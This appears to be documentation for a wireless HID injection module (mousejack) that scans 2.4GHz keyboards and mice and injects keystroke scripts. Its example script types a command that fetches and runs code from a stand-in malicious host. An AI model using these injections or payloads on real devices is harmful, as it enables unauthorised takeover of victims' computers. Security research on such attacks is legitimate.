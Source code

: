 ```yaml
---
title: "HID on 2.4Ghz"
date: 2019-02-25T11:10:28+01:00
draft: false
weight: 4
---
```


This module, which is a port of [Bastille's mousejack attack](https://www.mousejack.com/), performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's [RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware).

The module will work with one of the devices supported by RFStorm:

- CrazyRadio PA USB dongle
- SparkFun nRF24LU1+ breakout board
- Logitech Unifying dongle (model C-U0007, Nordic Semiconductor based)

{{% notice warning %}}
In order for this module to work, you need to make sure you installed the [Bastille’s RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware) on one of the supported devices.
{{% /notice %}}

Once flashed with the proper firmware and connected to your computer, `dmesg` should report the device as:

```sh
usb 3-1.3: new full-speed USB device number 8 using xhci_hcd
usb 3-1.3: New USB device found, idVendor=1915, idProduct=0102
usb 3-1.3: New USB device strings: Mfr=1, Product=2, SerialNumber=0
usb 3-1.3: Product: Research Firmware
usb 3-1.3: Manufacturer: RFStorm
```

The attack is known to support detection and [DuckyScript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) injection for the following devices:

- Microsoft Wireless Keyboard 800
- Microsoft Wireless Mouse 1000
- Microsoft Wireless Mobile Mouse 3500
- Microsoft All-In-One Media Keyboard
- Microsoft Sculpt Ergonomic Mouse
- Logitech Wireless Touch Keyboard K400r
- Logitech Marathon M705 Mouse
- Logitech Wave M510 Mouse
- Logitech Wireless Gaming Mouse G700s
- Logitech Wireless M325 Mouse
- Logitech K750 Wireless Keyboard
- Logitech K320 Wireless Keyboard
- Dell KM636 Wireless Mouse and Keyboard
- AmazonBasics MG-0975 Wireless Mouse

### Commands

#### `hid.recon on`

Start scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.recon off`

Stop scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.clear`

Clear all devices collected by the HID discovery module.

#### `hid.show`

Show a list of detected HID devices on the 2.4Ghz spectrum.

#### `hid.sniff ADDRESS`

Start sniffing a specific ADDRESS in order to collect payloads, use 'clear' to stop collecting.

#### `hid.inject ADDRESS LAYOUT FILENAME`

Parse the DuckyScript `FILENAME` and inject it as HID frames spoofing the device `ADDRESS`, using the `LAYOUT` keyboard mapping (available layouts: `BE BR CA CH DE DK ES FI FR GB HR IT NO PT RU SI SV TR US`).

{{% notice note %}}
The command `hid.inject` does not require the HID device to be visible via the `hid.show` command. If you know the address of the dongle already, you can simply set the `hid.force.type` parameter to one among `logitech` (the default value), `amazon` or `microsoft` and run the injection _"blindly"_.
{{% /notice %}}

### Parameters

| Parameter          | Default    | Description                                                                                                                                                                                                                    |
| ------------------ | ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `hid.lna`          | `true`     | If true, enable the LNA power amplifier for CrazyRadio devices.                                                                                                                                                                |
| `hid.hop.period`   | `100`      | Time in milliseconds to stay on each channel before hopping to the next one.                                                                                                                                                   |
| `hid.ping.period`  | `100`      | Time in milliseconds to attempt to ping a device on a given channel while in sniffer mode.                                                                                                                                     |
| `hid.sniff.period` | `500`      | Time in milliseconds to automatically sniff payloads from a device, once it's detected, in order to determine its type.                                                                                                        |
| `hid.force.type`   | `logitech` | If the device is not visible (if you want to talk directly to a dongle without connected devices) or its type has not being detected, force the device type to this value. Accepted values: `logitech`, `amazon`, `microsoft`. |
| `hid.show.filter`  |            | Defines a regular expression filter for `hid.show`.                                                                                                                                                                            |
| `hid.show.sort`    | `mac desc` | Defines sorting field (mac, seen) and direction (asc or desc) for `hid.show`.                                                                                                                                                  |
| `hid.show.limit`   | `0`        | Defines limit for `hid.show`.                                                                                                                                                                                                  |

### Examples

Enable HID discovery, use the `ticker` module to display detected devices, wait for the device `32:26:9f:a4:08` to be detected and inject the `ducky.txt` script as HID frames using the US keyboard layout:

```sh
> set ticker.commands clear; hid.show; events.show 10
> hid.recon on
> ticker on
# ... wait for the device to be detected, using `hid.show` ...
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Send the `ducky.txt` script keystrokes to the dongle with address `32:26:9f:a4:08` forcing its type to `logitech` and without waiting for any connected device to be visible:

```sh
> set hid.force.type logitech
> hid.recon on
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Example `ducky.txt` (for a complete list of available commands [see the documentation](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)):

    GUI SPACE
    DELAY 200
    STRING Terminal
    ENTER
    DELAY 500
    STRING curl -L http://www.evilsite.com/commands.sh | bash
    ENTER

Hacking Logitech devices:

<iframe width="560" height="315" src="https://www.youtube.com/embed/TdPRYWkYarM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
